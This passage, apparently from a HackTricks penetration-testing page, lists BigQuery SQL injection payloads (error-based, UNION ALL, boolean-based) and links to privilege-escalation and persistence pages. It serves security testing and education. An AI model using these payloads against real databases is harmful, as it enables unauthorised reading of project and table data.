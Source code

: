 * Error based - casting: `select CAST(@@project_id AS INT64)`
* Error based - division by zero: `' OR if(1/(length((select('a')))-1)=1,true,false) OR '`
* Union based (you need to use ALL in bigquery): `UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#`
* Boolean based: ``' WHERE SUBSTRING((select column_name from `project_id.dataset_name.table_name` limit 1),1,1)='A'#``
* Potential time based - Usage of public datasets example: ``SELECT * FROM `bigquery-public-data.covid19_open_data.covid19_open_data` LIMIT 1000``

**Documentation:**

* All function list: [https://cloud.google.com/bigquery/docs/reference/standard-sql/functions-and-operators](https://cloud.google.com/bigquery/docs/reference/standard-sql/functions-and-operators)
* Scripting statements: [https://cloud.google.com/bigquery/docs/reference/standard-sql/scripting](https://cloud.google.com/bigquery/docs/reference/standard-sql/scripting)

### Privilege Escalation & Post Exploitation

{% content-ref url="../gcp-privilege-escalation/gcp-bigquery-privesc.md" %}
[gcp-bigquery-privesc.md](../gcp-privilege-escalation/gcp-bigquery-privesc.md)
{% endcontent-ref %}

### Persistence

{% content-ref url="../gcp-persistence/gcp-bigquery-persistence.md" %}
[gcp-bigquery-persistence.md](../gcp-persistence/gcp-bigquery-persistence.md)
{% endcontent-ref %}

## References

* [https://cloud.google.com/bigquery/docs/column-level-security-intro](https://cloud.google.com/bigquery/docs/column-level-security-intro)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
